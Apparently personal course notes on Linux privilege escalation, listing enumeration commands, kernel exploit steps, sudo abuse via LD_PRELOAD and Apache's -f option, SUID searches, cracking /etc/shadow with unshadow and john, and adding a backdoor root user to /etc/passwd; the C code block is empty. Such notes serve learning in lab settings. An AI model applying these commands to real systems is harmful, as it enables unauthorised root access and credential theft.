

- ## *Enumeration Commands*
	- `hostname` returns the host name of the target.
	- `uname -a` returns information about the kernel.
	- `cat /proc/version` returns information about system processes.
	- `cat /etc/issue` returns information about the system.
	- `ps` returns running processes.
		- `ps -A`: returns all running processes.
		- `ps axjf`: returns the process tree.
		- `ps aux`: returns processes for all users.
	- `env` returns environment variables. (check the `PATH` variable).
	- `sudo -l` returns list of all commands that can be run by the user with sudo.
	- `id` returns user's privilege level and groups. (`id <user>`)
	- `cat /etc/passwd | cut -d ":" -f 1` returns users on the system.
	- `history` returns commands that were previously ran.
	- `ifconfig` and `ip route`
	- ### Netstat
		- Returns existing connections.
		- `netstat -ano` **MOST USED**, `-a` all sockets, `-n` do not resolve names, and `-o` display timers.
		- `netstat -a` returns all listening ports and connections.
		- `netstat -at` or `netstat -au` returns `TCP or UDP` connections.
		- `netstat -l` returns ports on listening mode.
		- `netstat -s` returns network usage statistics.
		- `netstat -tp` returns connection with service name and `PID` information
		- `netstat -i` returns interface statistics.
	- ### Find
		- #### Add `-type f 2>/dev/null` to redirect errors and have clean o/p
		- `find . -name flag1.txt` searches the current directory for file named `flag1.txt`.
		- `find /home -name flag1.txt` searches the home directory for the file named `flag1.txt`.
		- `find / -type d -name config` searches the root directory for a directory named config.
		- `find / -type f -perm 0777` searches for files with 777 permissions (readable, writable, executable by all).
		- `find / -perm a=x` searches for executable files.
		- `find /home -user frank` searches for files for user frank.
		- `find / -mtime 10` searches for files that were modified last 10 days.
		- `find / -atime 10` searches for files that were accessed last 10 days.
		- `find / -cmin -60` searches for files changed within the last hour.
		- `find / -amin -60` searches for files accesses within the last hour.
		- `find / -size 50M` searches for files with a 50 MB size.
			- `find / -size +50M` searches for files with a size more than 50 MB.
			- `find / -size -50M` searches for files with a size less than 50 MB.
		- `find / -writable -type d 2>/dev/null` searches for world-writable files.
		- `find / -perm -222 -type d 2>/dev/null` searches for world-writable directories.
		- `find / -perm -o w -type d 2>/dev/null` searches for world-writable directories.
		- `find / -perm -o x -type d 2>/dev/null` searches for world-executable directories.
		- `find / -name perl*` or `find / -name python*` or `find / -name gcc*` searches for development tools and supported languages.
		- #### **IMPORTANT**
			- `find / -perm -u=s -type f 2>/dev/null` searches for files with `SUID` bit set which allows us to run the file with the privilege of the file owner.
	- ### Tools
		- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
		- [LinEnum](https://github.com/rebootuser/LinEnum)
		- [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
		- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
		- [Linux Priv Checker](https://github.com/linted/linuxprivchecker)
- ## *Kernel Exploitation*
	- ### Steps
		- Identify the kernel version.
		- Search and find an exploit code for the kernel version. [Linux Kernel CVEs](https://www.linuxkernelcves.com/cves)
		- Run the exploit.
	- ### **NOTE** 
		- A failed kernel exploit could lead to a system crash.
- ## *Sudo* 
	- [GTFObins](https://gtfobins.github.io/)
	- ### **Using Application functions**
		- Some applications may not have an sudo exploit like `Apache2` server, a "hack" can be used to leak information using a function of the application. In case of `Apache2` the `-f` option specifies an alternative configuration file.
			- Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the file.
	- ### **Using LD_PRELOAD**
		- A function that allows any program to use shared libraries.
		- If the `env_keep` option is enabled, we can generate a shared library which will be loaded and executed before the program is run.
		- #### Steps
			- Check for LD_PRELOAD (with the `env_keep` option)
			- Write a simple C code compiled as a shared object (.so extension) file.
			- Run the program with sudo rights and the LD_PRELOAD option pointing to our `.so` file.
		- C code:
			- 
		- Compile the code using `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
			- Then use the found application that can be ran with Sudo, for example `find` like so `sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`
- ## SUID
	- [GTFObins](https://gtfobins.github.io/)
	- If the SUID or SGID bits are set, allows the files to be executed with the permissions of the file owner or the group owner.
	- `find / -type f -perm 04000 -ls 2>/dev/null` or `find / -type f -perm -u=s 2>/dev/null` lists the files that have SUID or SGID bits set.
	- #### *Using Nano*
		- `unshadow` tool to create a file crackable by `john`, the tool needs both `/etc/shadow` and `/etc/passwd` files.
			- `unshadow passwd.txt shadow.txt > passwords.txt`
		- Adding a new user that has root privileges.
			- Use `openssl passwd -1 -salt THM password1` to get a the hash value of the password `password1` with a salt of `THM`
			- Use the findings in `GTFObins` to add the user to the `/etc/passwd` file like so `hacker:<hash>:0:0:root:/root:/bin/bash`
			